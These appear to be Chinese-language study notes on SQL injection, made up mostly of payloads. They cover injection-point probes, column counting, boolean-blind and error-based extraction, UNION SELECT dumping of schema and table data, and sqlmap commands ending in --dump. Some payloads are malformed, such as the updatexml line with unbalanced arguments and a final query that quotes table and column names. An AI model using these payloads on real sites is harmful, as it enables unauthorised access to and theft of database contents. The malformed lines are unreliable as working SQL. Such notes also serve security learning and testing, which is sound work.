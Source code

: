 # SQL注入

<aside>
💡 SQL语句以字符串拼接，插入变量的方式构造，在相关位置插入脱库指令

</aside>

1. 利用闭合，判断是否存在注入点
    
    ```sql
    ' and 1=1 -- p
    ```
    
    ```sql
    " and 1=1 -- p
    ```
    
    ```sql
    ") and 1=1 -- p
    ```
    
    ```sql
    ")) and 1=1 -- p
    ```
    
2. 存在注入点，按列排序，判断总列数
    
    <aside>
    💡 从小到大逐个尝试，直到出现异常
    
    </aside>
    
    ```sql
    order by 4 -- p
    ```
    
- 界面不存在回显
    - 布尔盲注
        1. 猜测库名
            
            <aside>
            💡 left(string, int) 返回从左侧开始，前几位
            
            </aside>
            
            ```sql
            and left(database(),1)='a' -- p
            ```
            
            1. 猜测库名长度
                
                ```sql
                and length(database())=3 -- p
                ```
                
            2. 二分法猜测库名
                
                ```sql
                and ascii(substr(database(),n,1))>97
                ```
                
        2. 爆破表名
            
            <aside>
            💡 如果表名存在，原语句不运行where筛选，反之，报不存在表名错误
            
            </aside>
            
            ```sql
            or exists(select * from 表名) -- p
            ```
            
        3. 猜测表名
            
            <aside>
            💡 i：第几个表，n：表名的第几个字
            
            </aside>
            
            ```sql
            and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit i,1),n,1))>97
            ```
            
            1. 猜测库中表的数量
                
                ```sql
                and (select count(table_name) from information_schema.tables where table_schema=database())=2
                ```
                
            2. 猜测表名长度
                
                ```sql
                and length(substr((select table_name from information_schema.tables where table_schema=database() limit i,1),1))=5
                ```
                
                <aside>
                💡 此后，猜测列名（字段名）和猜测表名方法一致
                
                </aside>
                
    - 报错注入
        
        错误回显内返回查询内容
        
        ```sql
        union select updatexml(1, concat(0x7e, (select user()), 0x7e,1) -- p
        ```
        
- 界面存在回显
    1. 采用联合查找进一步获取表格信息
        
        <aside>
        💡 1, 2, 3为任意数字，个数与总列数一致
        
        </aside>
        
        <aside>
        💡 数字后不接表名，查询不指向已有表，指向一个填充给定数字的表
        
        </aside>
        
        <aside>
        💡 观察回显，此时可能并没有理想的回显，尝试将`id = 1`修改为无法检索到的位置，防止覆盖联合查找的输出
        
        </aside>
        
        ```sql
        union select 1, 2, 3 -- p
        ```
        
        1. 获取库名
            
            ```sql
            union select 1, database(), 3 -- p
            ```
            
        2. 获取库中全部表名
            
            <aside>
            💡 limit 0, 1：从第0个元素开始，读取1个元素（即读取第一个元素）
            
            </aside>
            
            ```sql
            union select 1, group_concat(table_name), 3 from information_schema.tables where table_schema = 'detected_database_name' limit 0, 1 -- p
            ```
            
        3. 获取表中全部列名
            
            ```sql
            union select 1, group_concat(column_name), 3 from information_schema.columns where table_schema = 'detected_database_name' and table_name = 'target_table_name' limit 0, 1 -- p
            ```
            
        4. 获取列中数据
            
            ```sql
            union select 1, 'target_column_name', 3 from 'target_table_name' -- p
            ```
            
- SQLMap工具注入
    1. 检查是否存在注入点
        
        <aside>
        💡 网址后最好接有GET型参数
        
        </aside>
        
        ```bash
        sqlmap -u http://web_address/?parameter=1
        ```
        
    2. 查询数据库名
        
        ```bash
        sqlmap -u http://web_address/?parameter=1 --current-db
        ```
        
    3. 查询数据库内所有表名
        
        ```bash
        sqlmap -u http://web_address/?parameter=1 -D [database_name] --tables
        ```
        
    4. 查询表中所有列名（字段名）
        
        ```bash
        sqlmap -u http://web_address/?parameter=1 -D [database_name] -T [table_name] --columns
        ```
        
    5. 查询列内值
        
        ```bash
        sqlmap -u http://web_address/?parameter=1 -D [database_name] -T [table_name] -C [column_name1], [column_name2] --dump
        ```